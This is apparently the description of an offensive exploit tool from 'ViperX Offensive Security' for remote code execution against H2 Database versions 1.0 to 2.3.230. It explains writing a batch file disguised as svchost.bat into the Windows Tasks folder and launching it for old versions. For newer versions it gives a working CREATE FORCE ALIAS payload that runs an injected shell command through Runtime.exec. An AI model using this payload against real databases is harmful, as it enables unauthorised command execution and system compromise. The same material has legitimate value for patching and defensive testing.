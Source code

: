 # H2 Database - RCE  
H2 Database (1.0 ~ 2.3.230) - Remote Code Execution

H2 Database RCE - ViperX Offensive Security
  Date: 17/07/2024

The exploit flow operates with the following logic: 
~ for versions <(1.4) we create a 'dummy' table, and write the output log into a C:\Windows\Tasks\svchost.bat file by using ("SCRIPT SIMPLE NODATA NOSETTINGS TO '{BAT_FULLPATH}')
  '-> With this bat file we can perform remote code execution with Arbitrary File Writing vulnerability.
  '-> for old versions we open the .bat file with "org.h2.util.StartBrowser.openURL" and for the newest one "org.h2.tools.Server.openBrowser"
~ In case of versions >(1.4), we just perform JAVA Code Execution through 'CREATE ALIAS' function:
  '->  CREATE FORCE ALIAS CMD_INJECT AS $$
  void pwshInject() throws Exception {
      Runtime.getRuntime().exec("%s");
  }
  $$;
